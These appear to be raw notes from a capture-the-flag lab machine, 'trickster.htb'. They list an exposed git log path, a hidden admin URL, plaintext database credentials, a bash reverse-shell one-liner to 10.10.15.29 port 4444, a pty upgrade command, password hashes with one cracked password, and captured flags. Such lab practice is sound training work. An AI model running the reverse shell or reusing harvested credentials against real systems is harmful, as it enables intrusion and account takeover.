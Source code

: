 


http://shop.trickster.htb/.git/logs/refs/heads/admin_panel

0000000000000000000000000000000000000000 0cbc7831c1104f1fb0948ba46f75f1666e18e64c 
adam <adam@trickster.htb> 1716538399 -0400	commit (initial): update admin pannel

convert the unix timestamp 
1716538399 -0400 == 5 - 24 - 2024


biggie@123.htb
BAga_6312

http://shop.trickster.htb/admin634ewutrx1jgitlooaj/

db creds 
'database_user' => 'ps_user',
'database_password' => 'prest@shop_o',

/bin/bash -i >& /dev/tcp/10.10.15.29/4444 0>&1

python3 -c 'import pty;pty.spawn("/bin/bash");'


admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C  

james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm  | alwaysandforever 

user.txt : c26d3f215603254bd9c979f60403576f

root : #YouC4ntCatchMe#

yyyZe28Iu0oP02jyCsmZXQGPgzdi4yoEqLuvJ4HEysNflXTd8YoRAIr6yDEVcDc//hijc+HKgjTr2qinYRknig==


6607ced9b9d74c0a703f61bab450e517
6607ced9b9d74c0a703f61bab450e517

[[machines]]